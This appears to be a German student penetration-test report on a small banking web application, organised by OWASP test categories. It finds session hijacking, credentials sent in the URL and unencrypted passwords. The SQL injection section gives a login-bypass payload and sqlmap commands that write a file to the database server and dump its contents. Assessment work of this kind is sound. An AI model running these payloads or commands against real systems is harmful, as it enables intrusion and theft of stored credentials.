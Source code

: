 # Pentest WebApplication

## Beschreibung IDE und Tools:
Betriebssystem: Windows 10 Version 1803 (Build 17134.407)  
IDE: IntelliJ IDEA 2018.2.6 (Ultimate Edition) Build #IU-182.5107.16  
Java 9  
![Firefox Add-on Cookie Manager v1.5](https://addons.mozilla.org/de/firefox/addon/a-cookie-manager/)<br/>
![Google Chrome Erweiterung v1.4.9](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=de)

Kali Linux  2018.4-vbox-amd64  
OWASP ZAP 2.7.0 

Die zu testende Anwendung:  
https://github.com/TimSro/BiBiFi

## Information Gathering
Durchlauf mit ZAP um Übergabeparameter zu sehen:

![alt text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/info_gathering/ZAP_Scan.png)
      
## Configuration and deployment management testing
# TODO

## Identity Managment Testing
# TODO
Registrierung und Password-Policy vorhanden.  
Account raten ist schwierig, da theoretisch jede eMail zur Anmeldung in Frage kommen kann.   

## Authentication Testing
Username und Passwort werden in der URL und im Request mitgesendet und sind damit anfällig ausgelesen zu werden.  
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/auth/ZAP_Auth_Test.png)

Zudem, kann die Anzeige der Anwendung durch Manipulation der URL beeinflusst werden
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/auth/URL_manipulation.png)

Durch kopieren der SessionID kann sich ein unangemeldeter Nutzer in das System schleichen.  
![alt text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/session/sessionGcCookieTool.png)
![alt text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/session/sessionSuccessfulHijack.png)

## Authorization Testing
Es gibt keine Möglichkeit über das Einloggen als normaler Benutzer auf Funktionen des Admins zuzugreifen.  
Wenn man ausgeloggt ist, bleibt man ausgeloggt.

## Testing for Session Fixation
# TODO

## Input Validation Testing
Durch einfügen eines Slashes "/" kann ein Fehlercode 500 erzeugt werden.
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/input_validation/url_manipulation.png)

### SQL Injection
Es ist möglich sich mit folgenden Daten anzumelden:  
Kontonummer: 1 OR Passwort = "Pa55w0rt"  
Passwort = Pa55w0rt  
Dabei kann jedes beliebiges Passwort, welches irgendein Benutzer hat, genutzt werden. (Bspw. durch das Raten von Passwörtern ist ein gültige Passwort auffindbar)  
Anschließend kann man für den ersten Account in der Datenbank mit dem geratenem Passwort den Kontostand sehen.  
Jedoch ist es nicht möglich weitere Aktionen auf dem Account auszuführen.  

Allerding kann man damit eine Blind SQL Injection durchführen.  
Bspw. mit dem Tool sqlmap und dem Kommando:  
sqlmap -u http://[IP-Adresse auf dem der Tomcat läuft]:8080/Servlet --data="uname=1 OR Passwort = \"Pa55w0rt\"&pasw=Pa55w0rt&bank=banka&loginOB="  

Dadruch kann bespielsweise eine Datei im DBMS abgelegt werden:  
sqlmap -u http://[IP-Adresse auf dem der Tomcat läuft]:8080/Servlet --data="uname=1 OR Passwort = \"Pa55w0rt\"&pasw=Pa55w0rt&bank=banka&loginOB=" --file-write"/tmp/datei" --file-dest="C:/ProgramData/MySQL/MySQL Server 8.0/Uploads/datei"  

Oder es kann der gesamte Datenbankinhalt ausgegeben werden:  
sqlmap -u http://[IP-Adresse auf dem der Tomcat läuft]:8080/Servlet --data="uname=1 OR Passwort = \"Pa55w0rt\"&pasw=Pa55w0rt&bank=banka&loginOB=" --dump  
![alt text](https://github.com/RocketJulia/Pentest/blob/master/Screenshots/SQL_Injection.png) 

### XSS
Durch XSS kann ein Fehlercode 400 erzeugt werden.
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/input_validation/xss_400.png)

Die folgenden Eingaben wurden ebenfalls getestet, führten jedoch zu keinem Ergebnis.
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/input_validation/xss_noResult_01.png)
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/input_validation/xss_noResult_02.png)
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/input_validation/xss_noResult_03.png)
![alt_text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/input_validation/xss_noResult_04.png)

## Testing for Error Handling
Wie schon oben aufgeführt, lassen sich ein paar Fehler erzeugen, jedoch keinerlei Stacktraces oder ähnliches auslesen.

## Testing for weak Cryptography
# TODO
Es findet keine verschlüsselte Übertragung von Daten statt, sodass man den Datenfluss abfangen und lesen kann. 
Beispielsweise Passwörter etc.  

Auch die Passwörter in der Datenbank sind nicht verschlüsselt.  
Mit einem Datenbankzugriff via Blind SQL Injection kann man somit alle Anemldedaten im Klartext erhalten. 
Siehe Punkt "SQL Incjection".

## Business Logic Testing
Keine Vorhanden

## Client Side Testing
Die Seite ist gegen Clickjacking geschützt.  
Das haben wir [hiermit](https://github.com/RocketJulia/Pentest/tree/master/Dateien/Clickjacking.html) getestet.  
![alt text](https://github.com/Vituratic/ATMWebApplication/blob/master/screenshots/client_side/Clickjacking.png)
